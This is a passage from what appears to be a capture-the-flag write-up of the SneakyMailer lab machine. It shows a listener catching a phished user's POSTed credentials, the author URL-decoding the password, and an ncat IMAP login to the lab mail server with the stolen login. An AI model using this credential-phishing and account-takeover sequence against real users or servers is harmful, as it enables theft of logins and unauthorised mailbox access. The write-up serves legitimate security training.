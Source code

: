 ```ruby
puts "[*] Result:-"
puts "[+] Banner: " + @banner
```

Nice Paul felt into the trick:

```
$ pwncat -l 8080 -vv
INFO: Listening on :::8080 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8080 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.197:52994 (family 2/IPv4, TCP)
POST / HTTP/1.1
Host: 10.10.14.142:8080
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Let's URL decode the POST body:

```ruby
$ irb
irb(main):001:0> require 'cgi'
=> true
irb(main):002:0> puts CGI.unescape('firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J
%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt')
firstName=Paul&lastName=Byrd&email=paulbyrd@sneakymailer.htb&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
=> ni
```

So here are our creds: `paulbyrd@sneakymailer.htb` / ```^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht```.

It seems that the username is not the full email address:

```
$ ncat sneakycorp.htb 143
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
A1 LOGIN "paulbyrd@sneakymailer.htb" "^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht"
A1 NO Login failed.
^C

$ ncat sneakycorp.htb 143
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
A1 LOGIN "paulbyrd" "^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht"
* OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
A1 OK LOGIN Ok.
A1 LIST "" *
* LIST (\Unmarked \HasChildren) "." "INBOX"
* LIST (\HasNoChildren) "." "INBOX.Trash"
* LIST (\HasNoChildren) "." "INBOX.Sent"
* LIST (\HasNoChildren) "." "INBOX.Deleted Items"
* LIST (\HasNoChildren) "." "INBOX.Queue"
* LIST (\HasNoChildren) "." "INBOX.Sent Items"
```